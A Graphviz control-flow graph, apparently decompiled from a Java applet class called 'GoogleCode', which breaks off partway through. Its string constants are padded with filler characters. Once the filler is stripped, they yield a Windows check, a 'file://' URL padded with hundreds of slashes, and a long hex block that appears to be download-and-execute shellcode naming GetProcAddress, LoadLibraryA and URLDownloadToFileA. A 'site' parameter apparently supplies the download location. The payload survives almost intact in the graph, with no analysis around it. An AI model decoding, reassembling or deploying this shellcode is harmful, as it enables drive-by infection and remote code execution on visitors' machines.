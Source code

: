 digraph "" {
    "r0 := @this: GoogleCode"
    "push 47"
    "r0 := @this: GoogleCode"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <GoogleCode: java.lang.String repeat(char,int)>";
    "store.r r423"
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"->"store.r r423";
    "push \"bbbobbbbbbsb.nbambbbbbbbe\""
    "store.r r423"->"push \"bbbobbbbbbsb.nbambbbbbbbe\"";
    "push \"b\""
    "push \"bbbobbbbbbsb.nbambbbbbbbe\""->"push \"b\"";
    "push \"\""
    "push \"b\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wOOOOOOOin\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wOOOOOOOin\"";
    "push \"O\""
    "push \"wOOOOOOOin\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"@@f@il@@e:@@@@//\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"@@f@il@@e:@@@@//\"";
    "push \"@\""
    "push \"@@f@il@@e:@@@@//\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r423"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r423";
    "load.r r423"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%EEZ%ZEEE%ZEEEE%EEEZ%EEEEEEEZ%EE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%EEZ%ZEEE%ZEEEE%EEEZ%EEEEEEEZ%EE\"";
    "push \"E\""
    "push \"Z%EEZ%ZEEE%ZEEEE%EEEZ%EEEEEEEZ%EE\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r423";
    "store.r r423"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"5aa053aaaa5aaaaaa1525aaa6aaa575aaa59CaE8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"5aa053aaaa5aaaaaa1525aaa6aaa575aaa59CaE8\"";
    "push \"a\""
    "push \"5aa053aaaa5aaaaaa1525aaa6aaa575aaa59CaE8\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00OO0000005D8OOOO3OOOOEDOOO0D31C06O4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00OO0000005D8OOOO3OOOOEDOOO0D31C06O4\"";
    "push \"00OO0000005D8OOOO3OOOOEDOOO0D31C06O4\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0OOOO3O4OOO0OOOO3OOOOOO0OOOO78OOOO0C8OB4OOOOO00OOOOC8B701OOOOC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0OOOO3O4OOO0OOOO3OOOOOO0OOOO78OOOO0C8OB4OOOOO00OOOOC8B701OOOOC\"";
    "push \"0OOOO3O4OOO0OOOO3OOOOOO0OOOO78OOOO0C8OB4OOOOO00OOOOC8B701OOOOC\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eeeAeeeeDeeee8eeeBeee4eee0eeee0ee8EBeeeeeee0eee98Be4eeee0eee3eee48eeD40eee7eeeC8eeeeBeee4e0eee3C56\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eeeAeeeeDeeee8eeeBeee4eee0eeee0ee8EBeeeeeee0eee98Be4eeee0eee3eee48eeD40eee7eeeC8eeeeBeee4e0eee3C56\"";
    "push \"e\""
    "push \"eeeAeeeeDeeee8eeeBeee4eee0eeee0ee8EBeeeeeee0eee98Be4eeee0eee3eee48eeD40eee7eeeC8eeeeBeee4e0eee3C56\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"==57BE5E========01==000==00===1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"==57BE5E========01==000==00===1\"";
    "push \"=\""
    "push \"==57BE5E========01==000==00===1\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"=EEB=F4=E=0====1===000====0===0==1E=====F=E8D60====10===000===5====F=5===E==\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"=EEB=F4=E=0====1===000====0===0==1E=====F=E8D60====10===000===5====F=5===E==\"";
    "push \"=EEB=F4=E=0====1===000====0===0==1E=====F=E8D60====10===000===5====F=5===E==\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"K8KKKK9KEKAKKK8KKK1KKC25E01KKKK0KKKKK00KKKK0526K8800KKKK0KKK0000KKKFF9KKK5K4KKKEKK0K10KKK00089EA8K1KKKC2KK5E0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"K8KKKK9KEKAKKK8KKK1KKC25E01KKKK0KKKKK00KKKK0526K8800KKKK0KKK0000KKKFF9KKK5K4KKKEKK0K10KKK00089EA8K1KKKC2KK5E0\"";
    "push \"K\""
    "push \"K8KKKK9KEKAKKK8KKK1KKC25E01KKKK0KKKKK00KKKK0526K8800KKKK0KKK0000KKKFF9KKK5K4KKKEKK0K10KKK00089EA8K1KKKC2KK5E0\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"100003X1XFXX60XXXX1XXXXC28A9CXX3XXXX5XX63020XXX0XXX0XXXXXXX0XX80XXFXXXBXXXX00740688XXXX1XXXC3XXX24X6XXXXXXEBXXXXEXEXXXXCXXXX60X4XX32XXXX008XXX9XXXEXXXXA81XXXXC2XXXX45XXX02XX00005XXXX2XXFF95X520XXXXXX10XX000X89EXXA81XXC2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"100003X1XFXX60XXXX1XXXXC28A9CXX3XXXX5XX63020XXX0XXX0XXXXXXX0XX80XXFXXXBXXXX00740688XXXX1XXXC3XXX24X6XXXXXXEBXXXXEXEXXXXCXXXX60X4XX32XXXX008XXX9XXXEXXXXA81XXXXC2XXXX45XXX02XX00005XXXX2XXFF95X520XXXXXX10XX000X89EXXA81XXC2\"";
    "push \"X\""
    "push \"100003X1XFXX60XXXX1XXXXC28A9CXX3XXXX5XX63020XXX0XXX0XXXXXXX0XX80XXFXXXBXXXX00740688XXXX1XXXC3XXX24X6XXXXXXEBXXXXEXEXXXXCXXXX60X4XX32XXXX008XXX9XXXEXXXXA81XXXXC2XXXX45XXX02XX00005XXXX2XXFF95X520XXXXXX10XX000X89EXXA81XXC2\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"x50xx0xx20xxxxx00052xxx5x0FxxxxxFx9556xx01x0xxxxx00xx0x6A006A0xx08xx9xExxxxA81Cxx25xE0x1x00xxx005xxx289xxxExxAxxx8xxxx1C278xxxx0x200xxxx0xxx0526xxxxxA0xxxx0FFD06Axxxx0589EAxxx8xxxx1C2xxx5xxE01xxxx0xx00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"x50xx0xx20xxxxx00052xxx5x0FxxxxxFx9556xx01x0xxxxx00xx0x6A006A0xx08xx9xExxxxA81Cxx25xE0x1x00xxx005xxx289xxxExxAxxx8xxxx1C278xxxx0x200xxxx0xxx0526xxxxxA0xxxx0FFD06Axxxx0589EAxxx8xxxx1C2xxx5xxE01xxxx0xx00\"";
    "push \"x\""
    "push \"x50xx0xx20xxxxx00052xxx5x0FxxxxxFx9556xx01x0xxxxx00xx0x6A006A0xx08xx9xExxxxA81Cxx25xE0x1x00xxx005xxx289xxxExxAxxx8xxxx1C278xxxx0x200xxxx0xxx0526xxxxxA0xxxx0FFD06Axxxx0589EAxxx8xxxx1C2xxx5xxE01xxxx0xx00\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0TT5T2TTFTTF955A010TTT0TTTT00T89EATTT81TTTTTTC25TTE0TTTT10TT00TT0TTTT5268TTTT800000TTTTTT00TTTTFTF9TTT5TTT4TETT010TT0008TTT9ETTTA8TT1TTTTC25ET01TTTT000TTT031TTTTTTF6TTTT0TT1CT2TT8A9TTTTTTC356E0TTT2TTT0TTT0TTT0TTTT080\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0TT5T2TTFTTF955A010TTT0TTTT00T89EATTT81TTTTTTC25TTE0TTTT10TT00TT0TTTT5268TTTT800000TTTTTT00TTTTFTF9TTT5TTT4TETT010TT0008TTT9ETTTA8TT1TTTTC25ET01TTTT000TTT031TTTTTTF6TTTT0TT1CT2TT8A9TTTTTTC356E0TTT2TTT0TTT0TTT0TTTT080\"";
    "push \"T\""
    "push \"0TT5T2TTFTTF955A010TTT0TTTT00T89EATTT81TTTTTTC25TTE0TTTT10TT00TT0TTTT5268TTTT800000TTTTTT00TTTTFTF9TTT5TTT4TETT010TT0008TTT9ETTTA8TT1TTTTC25ET01TTTT000TTT031TTTTTTF6TTTT0TT1CT2TT8A9TTTTTTC356E0TTT2TTT0TTT0TTT0TTTT080\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gggFggggB0g07406881C3ggg246ggEBggEggggEC604g32gggg008ggg9EgggA8ggg1Cggg2ggg450g20gggg0ggg0gg05gg2ggggggFF9gggggg5gggg52010ggggggg0ggg0g089ggggEAg81C25g0020g0gggg0gggg0g5gg25ggg0gFFggg95560100ggg0gggg06A0g06\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gggFggggB0g07406881C3ggg246ggEBggEggggEC604g32gggg008ggg9EgggA8ggg1Cggg2ggg450g20gggg0ggg0gg05gg2ggggggFF9gggggg5gggg52010ggggggg0ggg0g089ggggEAg81C25g0020g0gggg0gggg0g5gg25ggg0gFFggg95560100ggg0gggg06A0g06\"";
    "push \"g\""
    "push \"gggFggggB0g07406881C3ggg246ggEBggEggggEC604g32gggg008ggg9EgggA8ggg1Cggg2ggg450g20gggg0ggg0gg05gg2ggggggFF9gggggg5gggg52010ggggggg0ggg0g089ggggEAg81C25g0020g0gggg0gggg0g5gg25ggg0gFFggg95560100ggg0gggg06A0g06\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A077087797777EA77787717777C725777777E0177770707005777289E77A77781C772A7767770207770777070777752777776777777A00F7FD7067A058977E77A7877771C72775E770771777770777707707777077527FF955A0107777077077777777077779D77577D5F577E5A7759577B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A077087797777EA77787717777C725777777E0177770707005777289E77A77781C772A7767770207770777070777752777776777777A00F7FD7067A058977E77A7877771C72775E770771777770777707707777077527FF955A0107777077077777777077779D77577D5F577E5A7759577B\"";
    "push \"7\""
    "push \"A077087797777EA77787717777C725777777E0177770707005777289E77A77781C772A7767770207770777070777752777776777777A00F7FD7067A058977E77A7877771C72775E770771777770777707707777077527FF955A0107777077077777777077779D77577D5F577E5A7759577B\""->"push \"7\"";
    "push \"7\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"<<58<C3000000<<<00<<<00<<<<<<00<<<<00<<<00<0<0<<0<<<<0<<0<0<<<000<<0<0<<0000<<<<<<<<0<<47<<<<657<<<4<<<<546<<56D7050617<468<<41<<<<0<<04C<6<F6164<<<<<<4<C<<<<696272<<61<<<<7279410047<<<<6<<5745\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"<<58<C3000000<<<00<<<00<<<<<<00<<<<00<<<00<0<0<<0<<<<0<<0<0<<<000<<0<0<<0000<<<<<<<<0<<47<<<<657<<<4<<<<546<<56D7050617<468<<41<<<<0<<04C<6<F6164<<<<<<4<C<<<<696272<<61<<<<7279410047<<<<6<<5745\"";
    "push \"<\""
    "push \"<<58<C3000000<<<00<<<00<<<<<<00<<<<00<<<00<0<0<<0<<<<0<<0<0<<<000<<0<0<<0000<<<<<<<<0<<47<<<<657<<<4<<<<546<<56D7050617<468<<41<<<<0<<04C<6<F6164<<<<<<4<C<<<<696272<<61<<<<7279410047<<<<6<<5745\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0W72WWWW6WF6W34WW1646472WWWWW657WW3WWW73005WWW7WWW6W96E4WW5WWW7WW8WWWWWW656WWW300WWWWBB89WFWW2WWW8W9FWW7WWWW30CWWWW0WWWWAEW75WWWWFD29FW7WW8WWW9FWW931WWC0BE3WWCWWW0W0WWW00W0003B51WWBWWW0WWWWWWWW20W00066\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0W72WWWW6WF6W34WW1646472WWWWW657WW3WWW73005WWW7WWW6W96E4WW5WWW7WW8WWWWWW656WWW300WWWWBB89WFWW2WWW8W9FWW7WWWW30CWWWW0WWWWAEW75WWWWFD29FW7WW8WWW9FWW931WWC0BE3WWCWWW0W0WWW00W0003B51WWBWWW0WWWWWWWW20W00066\"";
    "push \"W\""
    "push \"0W72WWWW6WF6W34WW1646472WWWWW657WW3WWW73005WWW7WWW6W96E4WW5WWW7WW8WWWWWW656WWW300WWWWBB89WFWW2WWW8W9FWW7WWWW30CWWWW0WWWWAEW75WWWWFD29FW7WW8WWW9FWW931WWC0BE3WWCWWW0W0WWW00W0003B51WWBWWW0WWWWWWWW20W00066\""->"push \"W\"";
    "push \"W\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AD0Z3ZZZZ8ZZ51ZZB020ZZZ00ZZZ08BZZ7078ZZZZ8ZZZZZZ3CZ6ZZZ1C0ZZ3BZ5ZZ1BZZZZ02ZZZZ00ZZZ0ZZ0ZZZZ8ZZDZBZZZDZZ1FZZZZ0ZZZZ2ZZ00ZZ00AZZZD03ZZZZ8ZZ51B02000ZZ0ZZZZAZBZZZAZZZZZZZZD0ZZZZ3ZZZZZZ851B0ZZZZ2ZZZZ00ZZZ005Z0ZZZZZZZAZZZZBAD038ZZZZ5Z1B0Z2Z0ZZZZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AD0Z3ZZZZ8ZZ51ZZB020ZZZ00ZZZ08BZZ7078ZZZZ8ZZZZZZ3CZ6ZZZ1C0ZZ3BZ5ZZ1BZZZZ02ZZZZ00ZZZ0ZZ0ZZZZ8ZZDZBZZZDZZ1FZZZZ0ZZZZ2ZZ00ZZ00AZZZD03ZZZZ8ZZ51B02000ZZ0ZZZZAZBZZZAZZZZZZZZD0ZZZZ3ZZZZZZ851B0ZZZZ2ZZZZ00ZZZ005Z0ZZZZZZZAZZZZBAD038ZZZZ5Z1B0Z2Z0ZZZZ\"";
    "push \"Z\""
    "push \"AD0Z3ZZZZ8ZZ51ZZB020ZZZ00ZZZ08BZZ7078ZZZZ8ZZZZZZ3CZ6ZZZ1C0ZZ3BZ5ZZ1BZZZZ02ZZZZ00ZZZ0ZZ0ZZZZ8ZZDZBZZZDZZ1FZZZZ0ZZZZ2ZZ00ZZ00AZZZD03ZZZZ8ZZ51B02000ZZ0ZZZZAZBZZZAZZZZZZZZD0ZZZZ3ZZZZZZ851B0ZZZZ2ZZZZ00ZZZ005Z0ZZZZZZZAZZZZBAD038ZZZZ5Z1B0Z2Z0ZZZZ\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HHH0H00ABHHHH5HHHHEHHH3HHHH1DHBAD5603HHHH8HHH5HHHH1B0H2HHHH00008HH9CH689HHHHD75H1FCF3A6597HHHH404HHHHHHHH5E4H3HHHHHHHEBHHHHHHHHE95HHHE93DHH1HHHHEHHH0H0385HHHH27HHHH02HHH00HHH0HHHH03HHHH1FHHH69H6HHH6HHHH6HAHDHHHC1EHHHH002H0H3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HHH0H00ABHHHH5HHHHEHHH3HHHH1DHBAD5603HHHH8HHH5HHHH1B0H2HHHH00008HH9CH689HHHHD75H1FCF3A6597HHHH404HHHHHHHH5E4H3HHHHHHHEBHHHHHHHHE95HHHE93DHH1HHHHEHHH0H0385HHHH27HHHH02HHH00HHH0HHHH03HHHH1FHHH69H6HHH6HHHH6HAHDHHHC1EHHHH002H0H3\"";
    "push \"H\""
    "push \"HHH0H00ABHHHH5HHHHEHHH3HHHH1DHBAD5603HHHH8HHH5HHHH1B0H2HHHH00008HH9CH689HHHHD75H1FCF3A6597HHHH404HHHHHHHH5E4H3HHHHHHHEBHHHHHHHHE95HHHE93DHH1HHHHEHHH0H0385HHHH27HHHH02HHH00HHH0HHHH03HHHH1FHHH69H6HHH6HHHH6HAHDHHHC1EHHHH002H0H3\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8rrrr51rrrrrrFrrrr0rrrrrr2rrrr0rrrr00r0r89Crrr6ADr03rr8rrrr51rrrBrr0rrrr20000rrrrrrrC3rrrrErBrrrrrr10rrrrrrrr0rrr00000r0rrr000rrrr00rrr0000r000000rrrr000rrr0rr0r0rrrr00rrrrrrrr0rr089851rrrrBrrr02r0rrr0rrrr0r0565r7rrE858FrFFrrrrFFrrF5F5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8rrrr51rrrrrrFrrrr0rrrrrr2rrrr0rrrr00r0r89Crrr6ADr03rr8rrrr51rrrBrr0rrrr20000rrrrrrrC3rrrrErBrrrrrr10rrrrrrrr0rrr00000r0rrr000rrrr00rrr0000r000000rrrr000rrr0rr0r0rrrr00rrrrrrrr0rr089851rrrrBrrr02r0rrr0rrrr0r0565r7rrE858FrFFrrrrFFrrF5F5\"";
    "push \"r\""
    "push \"8rrrr51rrrrrrFrrrr0rrrrrr2rrrr0rrrr00r0r89Crrr6ADr03rr8rrrr51rrrBrr0rrrr20000rrrrrrrC3rrrrErBrrrrrr10rrrrrrrr0rrr00000r0rrr000rrrr00rrr0000r000000rrrr000rrr0rr0r0rrrr00rrrrrrrr0rr089851rrrrBrrr02r0rrr0rrrr0r0565r7rrE858FrFFrrrrFFrrF5F5\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EjjAjjjjB01CjjE8jj0j3EBB7jj4jjjjjj0jjj2EjjjBEDjC3jj5552jj4jCjjjj4Djj4jjjFj4Ejj2jjE4jjjjjjjj44jjjjjCjjjj4jjjjCjj00555jjjj2j4jCjj4jj46F776jjEjjjj6Cjjjjjj6Fjj61jjjj6jjj45jjj4j6F46jjjj69jjj6C654j1007064jjj6jjjj67570642E6jjjj5786jj5jjjj0j0jjjj6jj3726jjjj17jjj3j6jjj8jjjj2jjE7jj0jj6jjjj8700jjjj0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EjjAjjjjB01CjjE8jj0j3EBB7jj4jjjjjj0jjj2EjjjBEDjC3jj5552jj4jCjjjj4Djj4jjjFj4Ejj2jjE4jjjjjjjj44jjjjjCjjjj4jjjjCjj00555jjjj2j4jCjj4jj46F776jjEjjjj6Cjjjjjj6Fjj61jjjj6jjj45jjj4j6F46jjjj69jjj6C654j1007064jjj6jjjj67570642E6jjjj5786jj5jjjj0j0jjjj6jj3726jjjj17jjj3j6jjj8jjjj2jjE7jj0jj6jjjj8700jjjj0\"";
    "push \"j\""
    "push \"EjjAjjjjB01CjjE8jj0j3EBB7jj4jjjjjj0jjj2EjjjBEDjC3jj5552jj4jCjjjj4Djj4jjjFj4Ejj2jjE4jjjjjjjj44jjjjjCjjjj4jjjjCjj00555jjjj2j4jCjj4jj46F776jjEjjjj6Cjjjjjj6Fjj61jjjj6jjj45jjj4j6F46jjjj69jjj6C654j1007064jjj6jjjj67570642E6jjjj5786jj5jjjj0j0jjjj6jj3726jjjj17jjj3j6jjj8jjjj2jjE7jj0jj6jjjj8700jjjj0\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r70"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r70";
    "load.r r0"
    "store.r r70"->"load.r r0";
    "push \"sitvvve\""
    "load.r r0"->"push \"sitvvve\"";
    "push \"v\""
    "push \"sitvvve\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>";
    "push \"0MMMM0MM90MMM\""
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"->"push \"0MMMM0MM90MMM\"";
    "push \"M\""
    "push \"0MMMM0MM90MMM\""->"push \"M\"";
